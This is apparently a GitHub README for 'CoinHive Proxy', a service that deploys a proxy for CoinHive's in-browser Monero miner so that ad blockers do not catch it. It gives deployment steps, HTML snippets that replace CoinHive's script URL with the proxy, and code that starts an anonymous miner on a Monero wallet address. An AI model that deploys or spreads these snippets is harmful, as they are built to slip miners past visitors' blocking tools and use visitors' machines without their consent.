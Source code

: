 CoinHive Proxy 🎉
----------------

[This website](https://coinhive-proxy.party) allows you to create your own proxy for [coinhive.com](https://coinhive.com).

This way you can avoid being blocked by an **AdBlock**.

It uses [coin-hive-stratum](https://github.com/cazala/coin-hive-stratum) under the hood and deploys the proxy instance to [zeit.co/now](https://zeit.co/now).

With this proxy you can also mine on a **different pool** than CoinHive's, with a different **commision** and **difficulty**.

Once your proxy is created, you just have to replace CoinHive's miner url with **your proxy url**.

Go ahead and [create your proxy in a few seconds](https://coinhive-proxy.party)!

## Instructions

##### 1. Select a pool

Go to [CoinHive Proxy](https://coinhive-proxy.party) and select a pool.

You can make your proxy point to CoinHive, or to a different pool.

The other pools have different **commisions** and **difficulties** than CoinHive.

Once you selected the pool you want to use, click on `Get your proxy`.

##### 2. Deploy your proxy

Enter your email address and click on `Deploy to ▲ Z E I T`.

This will send you an email confirmation.

Don't worry if you don't have a **▲ Z E I T** account, they will create on for you.

Once you confirm your email, your proxy will be deployed.

##### 3. Use your proxy

Once your proxy is deployed, you will get **your proxy url** and a **snippet** that you will need to use to replace CoinHive's miner url.

Replace this:

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
```

With this:

```html
<script src="THIS-IS-YOUR-PROXY.now.sh/client?proxy"></script>
```

You can now keep using CoinHive's JavaScript Miner without worrying about AdBlock and/or mine on a different pool if you want. 


## Sources

All the UI sources have been uploaded to this repo, and the API endpoints are publicly hosted in [hook.io](https://hook.io)

- [/registration](https://hook.io/zeit/registration/source)

- [/verify](https://hook.io/zeit/verify/source)

- [/deploy](https://hook.io/zeit/deploy/source)

- [/status](https://hook.io/zeit/status/source)

## FAQ

#### How can I manage my proxy?

Once your proxy is deployed, just go to [zeit.co/dashboard](https://zeit.co/dashboard). Make sure you sign in using the same email you used to deploy your proxy.

#### Can I change my proxy's domain?

Yes, fist install `now`

```
npm i -g now
```

Then login using the same email you used to deploy your proxy

```
now login
```

Finally just use `now alias` to change your proxy's domain

```
now alias proxy-khlizaweshj.now.sh my-awesome-proxy
```

Now your proxy's url will be `my-awesome-proxy.now.sh`

If you want to have your own domain, you can do so as well

```
now alias proxy-khlizawelj.now.sh my-awesome-proxy.com
```

Now your proxy's url will be `my-awesome-proxy.com`, but you will have to pay for it via [zeit.co/domains](https://zeit.co/domains)

#### Can I scale my proxy?

When you deploy your proxy it will get assigned 1 instance. This is for free.

If you get a [paid plan](https://zeit.co/pricing) you can use `now scale` to increase the number of instances

```
now scale proxy-khlizaweshj.now.sh 3
```

Now your proxy would be running on 3 instances. To learn more about scaling [read this](https://zeit.co/docs/getting-started/scaling).

#### Are you going to steal my access token?

No, I promise. If it makes you feel safer go ahead and look at the [sources](https://github.com/coin-hive-proxy-party/coin-hive-proxy-party.github.io#sources) of the only 4 endpoints. 

You will see those endpoints just forward the tokens to Zeit's API, I don't store them anywhere :)

#### I'm getting an `invalid_site_key` error on the console when I try to use the proxy, why?

That's probably because you created a proxy to a different pool than CoinHive, and you are creating your miner using your CoinHive Site Key

When you use the proxy to mine on a different pool than CoinHive you have to provide your Monero Wallet Address instead of your Site Key, like this:

```html
<script src="https://proxy-khlizaweshj.now.sh/client?proxy"></script>
<script>
  var miner = new CoinHive.Anonymous('YOUR_MONERO_ADDRESS');
  miner.start();
</script>
```

If you don't have a Monero Wallet, you can get one on [mymonero.com](https://mymonero.com)

#### I'm getting an `internal_server_error` when I try to deploy my proxy, why?

This is probably because you run out of free instances on your Zeit account. The free plan allows you to have a maximum of 3 running instances. If you need more, you can always [upgrade your plan](https://zeit.co/pricing).